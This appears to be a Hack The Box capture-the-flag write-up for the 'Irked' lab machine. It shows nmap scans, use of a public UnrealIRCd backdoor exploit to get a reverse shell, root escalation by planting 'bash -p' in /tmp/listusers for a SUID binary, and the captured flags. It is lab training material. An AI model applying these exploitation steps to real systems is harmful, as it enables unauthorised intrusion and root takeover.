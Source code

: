 # Irked
>Author : Xyan1d3
>Date : 6th July 2021
>IP : 10.10.10.117
>OS : Linux
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jul  6 15:49:48 2021 as: nmap -sC -sV -oN nmap/irked -v 10.10.10.117
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.061s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38819/udp   status
|   100024  1          41868/tcp   status
|   100024  1          41964/udp6  status
|_  100024  1          52347/tcp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap all ports without scripts
```sql
# Nmap 7.91 scan initiated Tue Jul  6 15:53:49 2021 as: nmap -p- -oN nmap/irked-all-ports -v 10.10.10.117
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.066s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
41868/tcp open  unknown
65534/tcp open  unknown
```

## Nmap all open ports with scripts
```sql
# Nmap 7.91 scan initiated Tue Jul  6 16:15:15 2021 as: nmap -p22,80,111,6697,8067,41868,65534 -A -oN nmap/deep-scan -v 10.10.10.117
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.062s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38819/udp   status
|   100024  1          41868/tcp   status
|   100024  1          41964/udp6  status
|_  100024  1          52347/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
41868/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   61.52 ms 10.10.14.1
2   61.88 ms irked.htb (10.10.10.117)
```

# Initial FootHold
We find out that the box is running `UnrealIRCd` which is vulnerable to an unauthenticated remote command injection.

Exploit : https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

We need to modify line number 14 & 15 and chnage it to our attacker box ip and port to catch the shell.
![[Pasted image 20210706163031.png]]

We would now listen on the port and run the exploit.
![[Pasted image 20210706163330.png]]

We recieve a shell on the box as the `ircd` user.

# Root Escalation
For, Root Escalation we need to check all the suid binaries of the box.
```python
ircd@irked:~$ find / -perm /4000 2> /dev/null

*** SNIP ***

/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser    <---- The intersting binary
/sbin/mount.nfs

*** SNIP ***
```

We transfer this binary onto our box and run a ltrace against.
```
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/irked]
└──╼ # ltrace ./viewuser 
__libc_start_main(0x5661057d, 1, 0xff8ba744, 0x56610600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                             = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                             = 37
system("who"root     tty7         2021-07-06 11:08 (:0)
root     pts/1        2021-07-06 11:09 (X)
root     pts/2        2021-07-06 11:10 (tmux(2274).%0)
root     pts/3        2021-07-06 16:38 (tmux(2274).%44)
root     pts/4        2021-07-06 16:42 (tmux(2274).%45)
root     pts/5        2021-07-06 16:23 (tmux(2274).%39)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) 		= 0
setuid(0)					= 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )		= 32512
+++ exited (status 0) +++
```

Here, We see that the binary is setting the uid to `0` as it has a `setuid` bit set.
Then, It is calling a file `/tmp/listusers` and throwing an error as it does not exists.

We could create a file in called `/tmp/listusers` and put a `bash -p` and set and execute bit on it. We could then call the binary to get bash spawned as `root`.
![[Pasted image 20210706165534.png]]

## Getting the User Flag
```python
root@irked:~# cd /home/djmardov/Documents/
root@irked:/home/djmardov/Documents# ls -l
total 4
-rw------- 1 djmardov djmardov 33 May 15  2018 user.txt
root@irked:/home/djmardov/Documents# cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
```

## Getting the Root Flag
```python
root@irked:~# cd /root/
root@irked:/root# ls -l
total 8
-rw-r--r-- 1 root root 17 May 14  2018 pass.txt
-rw------- 1 root root 33 May 15  2018 root.txt
root@irked:/root# cat root.txt 
8d8e9e8be64654b6dccc3bff4522daf3
```